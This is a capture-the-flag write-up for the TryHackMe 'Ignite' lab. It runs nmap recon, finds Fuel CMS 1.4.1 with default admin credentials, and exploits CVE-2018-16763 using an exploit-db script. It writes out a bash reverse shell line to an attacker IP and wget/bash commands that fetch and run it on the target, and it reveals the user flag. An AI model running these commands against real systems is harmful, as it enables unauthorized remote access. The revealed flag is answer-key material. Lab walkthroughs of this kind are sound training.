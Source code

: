 # Ignite

<div align="left">

<figure><img src=".gitbook/assets/676cb3273c613c9ba00688162efc0979.png" alt="" width="128"><figcaption><p>tryhackme.com - © TryHackMe</p></figcaption></figure>

</div>

🔗 [Ignite](https://tryhackme.com/room/ignite)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.166.221`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

```bash
su
echo "10.10.166.221 ignite.thm" >> /etc/hosts

mkdir thm/ignite.thm  
cd thm/ignite.thm

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 ignite.thm
PING ignite.thm (10.10.166.221) 56(84) bytes of data.
64 bytes from ignite.thm (10.10.166.221): icmp_seq=1 ttl=63 time=61.5 ms
64 bytes from ignite.thm (10.10.166.221): icmp_seq=2 ttl=63 time=62.8 ms
64 bytes from ignite.thm (10.10.166.221): icmp_seq=3 ttl=63 time=63.7 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix system (probably Linux), while Windows systems usually have a TTL of 128 secs.

#### 2.1 - Find open ports on the machine

```bash
nmap --open -n -Pn -vvv -T4 ignite.thm
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-02 11:12 EDT
Initiating SYN Stealth Scan at 11:12
Scanning ignite.thm (10.10.166.221) [1000 ports]
Discovered open port 80/tcp on 10.10.166.221
Completed SYN Stealth Scan at 11:12, 0.99s elapsed (1000 total ports)
Nmap scan report for ignite.thm (10.10.166.221)
Host is up, received user-set (0.068s latency).
Scanned at 2023-07-02 11:12:22 EDT for 1s
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.24 seconds
           Raw packets sent: 1000 (44.000KB) | Rcvd: 1000 (40.004KB)
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

```bash
map -p80 -sCV -T4 ignite.thm -oN port_scan
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/fuel/
```

It looks like there are only one open port on the machine: HTTP.

#### Task 3 - What is the user flag? 

<figure><img src=".gitbook/assets/Schermata del 2023-07-02 17-19-30.png" alt=""><figcaption><p>http://ignite.thm:80</p></figcaption></figure>

We can search exploit with searchsploit:

```bash
searchsploit fuel cms 1.4 
------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                  |  Path
------------------------------------------------------------------------------------------------ ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                                      | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                      | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                                      | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                                     | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                            | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                | php/webapps/48778.txt
------------------------------------------------------------------------------------------------ ---------------------------------
```

Very good, there're many exploits for this CMS.

Exploring page we found a good info:

<figure><img src=".gitbook/assets/Schermata del 2023-07-02 17-23-40.png" alt=""><figcaption></figcaption></figure>

To access the FUEL admin, go to:\
[http://ignite.thm/fuel](http://ignite.thm/fuel)\
User name: **admin**\
Password: **admin** (you can and should change this password and admin user information after logging in).

<div align="left">

<figure><img src=".gitbook/assets/Schermata del 2023-07-02 17-25-17.png" alt=""><figcaption></figcaption></figure>

</div>

<figure><img src=".gitbook/assets/Schermata del 2023-07-02 17-26-30.png" alt=""><figcaption></figcaption></figure>

Now, we can try to exploit using a RCE exploit, first we download script from searchsploit db:

```bash
searchsploit -m 50477.py                             
  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (3)
      URL: https://www.exploit-db.com/exploits/50477
     Path: /usr/share/exploitdb/exploits/php/webapps/50477.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable
cp: overwrite '/home/kali/50477.py'? 
Copied to: /home/kali/50477.py
```

After this, we can launch exploit:

```bash
python 50477.py -u http://ignite.thm
```

<div align="left">

<figure><img src=".gitbook/assets/Schermata del 2023-07-02 19-39-11.png" alt=""><figcaption></figcaption></figure>

</div>

We need to do a reverse shell, we start to:

Retrieve our ip address:

```bash
ip -br -c a
```

and create a shell file with nano:

```bash
nano shell.sh
```

Insert this line for a bash reverse shell:

```bash
/bin/bash -i >& /dev/tcp/10.0.2.15/3333 0>&1
```

Setup a Python web server and a `nc` listener on 2 different tabs:

1st tab:

```bash
python -m http.server
```

2nd tab:

```bash
nc -nvlp 3333
```

Now, we can return in the exploited Fuel CMS tab, and do this commands:

```bash
wget http://10.0.2.15:8000/shell.sh -O shell.sh
bash shell.sh
```

Reverse shell received in the `nc` terminal:

```bash
/usr/bin/script -qc /bin/bash /dev/null
cd /home/www-data
ls
cat flag.txt
```

<details>

<summary>🚩 Flag 1 (user.txt)</summary>

`6470e394cbf6dab6a91682cc8585059b`

</details>

#### Task 4 - What is the root flag? 

<details>

<summary>🚩 Flag 2 (root.txt)</summary>



</details>
